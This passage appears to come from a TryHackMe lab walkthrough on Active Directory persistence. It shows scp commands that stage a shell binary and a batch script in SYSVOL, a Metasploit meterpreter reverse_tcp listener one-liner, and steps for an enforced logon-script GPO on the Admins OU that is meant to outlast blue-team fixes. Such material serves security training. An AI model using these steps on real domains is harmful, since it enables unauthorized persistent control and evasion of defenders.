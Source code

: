 We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:

```markup
$thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

$thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

Finally, let's start our MSF listener:

`msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"`

With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.

GPO Creation

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

1. In your runas-spawned terminal, type MMC and press enter.
2. Click on **File**->**Add/Remove Snap-in...**
3. Select the **Group Policy Management** snap-in and click **Add**
4. Click **OK**

You should be able to see the GPO manager:

![GPO Edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/62aab3368a951e8180c35bef9ed82ead.png)

While we can technically write our contents to the Default Domain Policy, which should propagate to all AD objects, we will take a more narrow approach for the task just to show the process. You can play around afterwards to apply the changes to the entire domain.

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as `username - persisting GPO`:

![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/e71058947046aa9b8e77dff06292d15b.png)

Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:

![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/99a7c82a27440ca59365581c3191ce24.png)

Let's get back to our Group Policy Management Editor:

1. Under User Configuration, expand **Policies->Windows Settings**.
2. Select **Scripts (Logon/Logoff)**.
3. Right-click on **Logon->Properties**
4. Select the **Scripts** tab.
5. Click **Add->Browse**.

Let's navigate to where we stored our Batch and binary files:
